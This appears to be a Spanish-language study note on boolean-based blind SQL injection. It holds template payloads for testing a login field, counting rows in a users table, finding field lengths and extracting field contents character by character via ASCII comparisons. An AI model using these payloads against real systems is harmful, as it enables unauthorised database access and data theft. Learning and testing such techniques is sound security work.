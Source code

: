 ### Descubriendo la vulnerabilidad

En este caso buscamos un campo donde podamos validar una respuesta. Luego buscamos una respuesta correcta(true), con esta respuesta correcta, buscamos agregar más lógica a la query con el fin de analizar si un segundo caso se cumple:

    admin' AND 1=1-- -
    admin' AND 1=0-- -

##### Explicación de la lógica:

1. Una vez que validamos que tenemos un dato que es verdadero, agregamos a la query un boolean que sea verdadero. Si esto no resulta falso podemos inferir que el segundo caso (el boolean) está siendo analizado puesto que si tomara todo lo ingresado como un dato completo ya no tendríamos "admin" como dato sino "admin' and...."
2. Inyectamos ahora un caso booleano que de falso. Si la respuesta es Falsa, entonces podemos asegurar que el segundo caso es validado.
3. Utilizamos el segundo caso para hacer querys que puedan darnos una pista de los datos que se están manejando.

### validar cantidad de campos en una tabla

        <dato>' AND (select count(*) from users) > 0-- -

### Conseguir el length de un dato de la tabla

        <dato>' AND LEN(<campo a consultar del usuario>)=<length>-- -

### Dumpear los caracteres dentro de un campo
Podemos trabajarlo con valores ASCII(en números del 32 al 127) y luego decodearlos para tener el caracter legible

        <dato>'+AND+ASCII(SUBSTRING(<campo>,<index_del_char>,1))=<valor ASCII>--+-

Una buena página para hacer esta decodificación una vez logrados los resultados(recordar copiar separados los ASCII, luego la página los junta:

https://www.duplichecker.com/ascii-to-text.php
